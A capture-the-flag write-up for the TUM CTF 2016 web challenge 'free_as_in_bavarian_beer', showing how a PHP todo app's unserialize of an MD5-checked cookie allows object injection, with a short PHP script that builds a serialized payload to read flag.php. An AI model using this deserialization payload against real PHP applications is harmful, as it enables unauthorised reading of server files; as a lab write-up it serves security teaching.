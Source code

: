 ```yaml
---
layout: post
title: "TUM CTF 2016: free_as_in_bavarian_beer (web 50)"
author: verr
categories: writeup
tags: [cat/web, lang/php]
---
```


* **Category:** Web
* **Points:** 50
* **Description:**

> You have lots of stuff to do? Better start using this cool tool.
>
> http://104.154.70.126:10888
>
> PROTIP: Flag is in flag.php.

([dumped Sourcecode](https://gist.github.com/stefan2904/21a3b0ca10163f9fced6ab3767a92a08))

## Write-up

Since it's the easiest web challenge, it was easily possible to dump the sourcecode. The app is a simple todo manager, which stores the tasks in a cookie. Reading the code, we quickly noticed the suspicious `unserialize`:

```php
<?php
if(isset($_COOKIE['todos'])){
    $c = $_COOKIE['todos'];
    $h = substr($c, 0, 32);
    $m = substr($c, 32);
    if(md5($m) === $h){
        $todos = unserialize($m);
    }
}
?>
```

This is a prime example for [PHP Object Injection](https://www.owasp.org/index.php/PHP_Object_Injection). In this case it was not necessary to dig deeper into PHP internal classes, since the class in need was conveniently already present; the class used to display the source (and eny other file) ...

```php
<?php
Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}
?>
```

So we need to build a `GPLSourceBloater` object, set its `source` attribute to the desired file (`flag.php`) and serialize it.

```php
<?

Class GPLSourceBloater{
    public function __toString()
    {
        return highlight_file('license.txt', true).highlight_file($this->source, true);
    }
}

$foo = new GPLSourceBloater();
$foo->source = 'flag.php';

$bar = [];
$bar[] = $foo;

$m = serialize($bar);
$h = md5($m);

echo urlencode($h.$m);

?>
```

After storing the serialized object to a cookie named `todos` and loading the page again, `__toString()` did its job and we were presented with the flag: 

```
hxp{Are you glad that at least Java(TM) isn't affected by serialization bugs?}
``


